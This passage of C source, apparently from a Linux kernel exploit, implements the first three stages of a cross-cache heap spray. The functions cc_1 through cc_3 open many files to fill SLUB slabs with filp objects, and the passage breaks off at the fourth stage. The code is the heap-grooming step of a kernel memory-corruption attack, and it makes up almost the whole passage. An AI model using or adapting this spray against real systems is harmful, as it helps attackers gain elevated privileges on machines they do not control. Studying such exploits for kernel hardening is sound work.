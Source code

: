 ```c
}

// Cross-cache 1:
// Allocate enough objects that we have definitely allocated enough
// slabs to fill up the partial list later when we free an object from each
// slab
void cc_1(void)
{
    // Calculate the amount of objects to spray
    uint64_t spray_amt = (OBJS_PER_SLAB * (CPU_PARTIAL + 1)) * OVERFLOW_FACTOR;
    g_cc1_num = spray_amt;

    // Paranoid
    if (spray_amt > CROSS_CACHE_MAX) { err("Illegal spray amount"); }

    //info("Spraying %lu `filp` objects...", spray_amt);
    for (uint64_t i = 0; i < spray_amt; i++)
    {
        g_cc1_fds[i] = get_test_fd(0);
    }
    usleep(100000);

    return;
}

// Cross-cache 2:
// Allocate OBJS_PER_SLAB to *probably* create a new active slab
void cc_2(void)
{
    // Step 2:
    // Allocate OBJS_PER_SLAB to *probably* create a new active slab
    uint64_t spray_amt = OBJS_PER_SLAB - 1;
    g_cc2_num = spray_amt;

    //info("Spraying %lu `filp` objects...", spray_amt);
    for (uint64_t i = 0; i < spray_amt; i++)
    {
        g_cc2_fds[i] = get_test_fd(0);
    }
    usleep(100000);

    return;
}

// Cross-cache 3:
// Allocate enough objects to definitely fill the rest of the active slab
// and start a new active slab
void cc_3(void)
{
    uint64_t spray_amt = OBJS_PER_SLAB + 1;
    g_cc3_num = spray_amt;

    //info("Spraying %lu `filp` objects...", spray_amt);
    for (uint64_t i = 0; i < spray_amt; i++)
    {
        g_cc3_fds[i] = get_test_fd(0);
    }
    usleep(100000);

    return;
}

// Cross-cache 4:
```